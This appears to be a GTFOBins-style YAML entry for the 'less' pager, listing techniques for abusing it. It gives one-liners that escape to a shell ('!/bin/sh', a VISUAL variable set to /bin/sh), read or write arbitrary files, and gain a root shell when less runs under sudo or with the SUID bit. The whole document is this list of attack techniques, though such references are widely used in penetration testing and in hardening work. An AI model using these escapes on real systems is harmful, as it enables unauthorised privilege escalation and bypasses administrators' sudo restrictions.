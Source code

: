 ```yaml
---
functions:
  execute-interactive:
    - code: |
        less /etc/profile
        !/bin/sh
    - code: |
        VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
        v
  file-read:
    - code: less file_to_read
  file-write:
    - code: |
        echo DATA | less
        sfile_to_write
        q
  sudo-enabled:
    - code: |
        sudo less /etc/profile
        !/bin/sh
  suid-enabled:
    - code: ./less file_to_read
---
```

